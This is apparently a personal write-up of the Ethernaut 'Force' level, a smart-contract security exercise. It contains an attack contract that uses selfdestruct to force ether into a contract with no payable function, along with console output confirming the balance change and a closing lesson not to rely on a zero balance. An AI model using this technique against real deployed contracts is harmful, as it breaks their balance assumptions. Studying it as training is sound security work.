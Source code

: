 7. Force
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

Fallback methods
Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"


// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}


//make AttackFile
/ForceAttack.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    constructor() public payable {

    }
 
    function attack(address payable _constractAddr) public {//errorが出たのでpayableはoriginal 
        selfdestruct(_constractAddr);
    }
}

ref: https://ethereum.stackexchange.com/questions/68059/invalid-implicit-conversion-from-address-to-address-payable-requested

await getBalance(contract.address)
'0'
contract.address
'0x58dc2d03B86410ed60cCdD453E568f3198EBAc7a'

//ether送金完了
await getBalance(contract.address)
'1'


In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. 
Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

















